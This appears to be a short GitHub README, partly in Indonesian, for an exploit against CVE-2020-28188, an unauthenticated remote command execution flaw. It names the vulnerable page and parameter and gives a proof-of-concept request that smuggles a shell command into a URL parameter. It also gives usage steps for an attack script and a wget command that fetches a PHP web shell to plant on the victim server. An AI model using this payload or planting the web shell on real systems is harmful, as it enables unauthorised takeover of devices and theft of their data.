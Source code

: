 # RCE_TOS
Unauthenticated Remote Command Execution 
CVE-2020-28188
Vulnerable page: /include/makecvs.php
Vulnerable parameter: Event
Proof of Concept:
GET /tos/index.php?explorer/pathList&path=%60touch%20/tmp/file%60 HTTP/1.1

# Cara Menggunakan
pip install requests <br>
python3 RCE.PY --url target.com:8181

# Upload Shell<br>
<code>
  wget https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/shell-v3.php
</code>

akses shell : http://target.com/shell.php
